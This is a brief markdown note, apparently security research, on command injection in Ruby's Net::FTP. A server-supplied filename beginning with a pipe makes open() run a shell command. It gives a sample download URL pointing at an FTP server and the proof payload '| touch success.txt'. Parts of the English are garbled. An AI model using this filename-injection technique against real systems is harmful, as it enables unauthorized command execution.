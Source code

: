 # Command Injection with NET::ftp filename

### background
```
f = open(localfile, "w") # when .open("| os command", "w")

Use with fishing it.
```

### payload
```
visited url: http://domain:8080/download?url=ftp://advisory.com:2121/&file=paload

payload = "| touch success.txt"

```
